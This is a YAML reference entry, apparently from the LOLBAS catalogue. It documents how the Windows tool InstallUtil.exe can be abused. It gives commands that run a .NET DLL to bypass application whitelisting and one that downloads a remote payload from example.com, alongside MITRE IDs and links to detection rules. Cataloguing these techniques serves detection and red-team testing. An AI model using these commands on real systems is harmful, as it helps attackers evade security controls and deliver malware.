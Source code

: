 ```yaml
---
Name: Installutil.exe
Description: The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    Description: Execute the target .NET DLL or EXE.
    Usecase: Use to execute code and bypass application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: .NetDLL
      - Execute: .NetEXE
  - Command: InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    Description: Execute the target .NET DLL or EXE.
    Usecase: Use to execute code and bypass application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: .NetDLL
      - Execute: .NetEXE
  - Command: InstallUtil.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_instalutil_no_log_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_installutil_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_installutil_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.004/T1218.004.md
  - Link: https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```


